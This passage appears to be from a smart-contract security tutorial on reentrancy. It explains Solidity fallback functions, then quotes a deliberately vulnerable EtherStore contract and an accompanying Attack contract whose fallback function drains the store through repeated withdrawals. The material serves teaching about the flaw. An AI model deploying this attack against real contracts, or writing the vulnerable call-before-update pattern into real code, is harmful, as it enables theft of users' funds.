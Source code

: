 # Reentrancy

## Overview

### Fallback Functions

Before we learn about re-entrancy and how to prevent it, we need to learn about its primary facilitator: fallback functions.

Originally, the main purpose of fallback functions was to catch ether that was accidentally sent to a contract. You could use a plain one, which would throw an exception whenever the contract receives some ether:

```fallback() external { }```

Or you could give it the ability to ingest the ether and add it to the contract balance, and even perform some simple logic:

```
mapping (address => uint) public etherSent;

fallback() external payable {
  etherSent[msg.sender] += msg.value;
}
```
  
Each contract can have up to one fallback function. It has no name, no arguments, no return value, and can only be called by external accounts or contracts. It's executed when a call to the contract doesn't match any of the functions in the contract, or when Ether is sent to the contract without any accompanying data.

By this point, many of us know how resourceful hackers and engineers are. Many of you may be thinking about your own clever uses for a fallback function. You can check out the Delegate Proxy pattern, or EIP-2535 *The Diamond Standard* for ideas. But those aren't what we're here for. We're here to talk about using fallback functions for **evil**.

### Re-Entrancy

The beauty of the Ethereum ecosystem is in its composability and its permissionless, trustless nature. Utilizing code of external contracts is an important part of our burgeoning defi ecosystem. Calling these contracts, however, or sending Ether to them can create opportunities for hackers.

Remember what happens when an external call doesn't match any of the receiving contract's function signatures? A fallback function catches it. And inside that fallback function, arbitrary logic can be executed. Where arbitrary logic can be executed, of course hackers will find a way to perform unexpected operations. In re-entrancy, hackers use this logic to call the offending contract again *and again and again...*, to alter its state before the original function can finish executing. 

Take the below contract for example. written up by Sigma Prime:

```
contract EtherStore {

    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;

    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
----->  require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
 ```
 
 And check out their accompanying "Attack" contract:
 
 ```
 import "EtherStore.sol";

contract Attack {

  EtherStore public etherStore;

  // initialise the etherStore variable with the contract address
  
  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }

  function pwnEtherStore() public payable {
      // attack to the nearest ether
      require(msg.value >= 1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(1 ether)();
      // start the magic
      etherStore.withdrawFunds(1 ether);
  }

  function collectEther() public {
      msg.sender.transfer(this.balance);
  }

  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 1 ether) {
          etherStore.withdrawFunds(1 ether);
      }
  }
}
```

Try to figure out exactly what's happening here. I've marked the vulnerable line of code in the first contract with an arrow.
